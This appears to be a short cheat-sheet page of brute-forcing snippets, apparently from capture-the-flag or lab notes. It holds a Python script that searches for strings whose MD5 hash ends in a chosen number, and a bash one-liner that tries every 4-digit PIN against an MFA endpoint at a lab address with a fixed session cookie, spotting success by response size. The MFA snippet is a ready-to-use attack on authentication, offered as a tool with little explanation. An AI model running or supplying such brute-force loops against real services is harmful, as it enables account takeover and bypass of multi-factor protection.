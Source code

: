 # Bruteforcing

## Find a specific hash

Find a hash that ends with your lucky number:

```
  #!/usr/bin/env python3
  from hashlib import md5
  from string import ascii_lowercase
  import itertools
  counter=1
  lucky_number='007'
  while True:
    combos=itertools.combinations_with_replacement(ascii_lowercase,r=counter)
    for combo in combos:
      string="".join(combo)
      h=md5(string.encode("utf-8"))
      the_hash=h.hexdigest()
      if the_hash.endswith(lucky_number):
        print(string,the_hash)
        exit()
    counter+=1
```

## Iterate over pins for MFA codes

Find a 4 digits pin for weak MFA:

```
  for i in {0000..9999};do echo $i; curl -s -X POST --data "code=$i" 10.10.11.44/console/mfa.php --cookie "user=user_name;pwd=egho"|wc|grep -v "1523"; if [ $? -eq 0 ]; then echo BOOM; break; fi;done
```  
